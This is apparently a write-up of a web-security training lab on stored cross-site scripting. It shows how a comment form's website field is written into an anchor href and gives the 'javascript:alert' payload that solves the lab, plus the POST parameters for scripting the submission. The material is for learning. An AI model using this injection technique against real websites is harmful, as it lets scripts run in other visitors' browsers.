 ### Lab: Stored XSS into anchor href attribute with double quotes HTML-encoded

This lab contains a stored cross-site scripting vulnerability in the comment functionality.  
To solve this lab, submit a comment that calls the alert function when the comment author name is clicked.

_____

Analysis and Exploit:

1. Post comment, website field "http://test"
```html
<p>
    <img src="/resources/images/avatarDefault.svg" class="avatar">
        <a id="author" href="http://test">test</a> | 24 April 2023
</p>
<p>test</p>
```

2. There is no input constraint on the website field

3. Payload to post, then wait

```html
javascript:alert('XSS')
```


______

Script notes:

1. POST **/post/comment**
    - csrf
    - postId
    - comment
    - name
    - email
    - website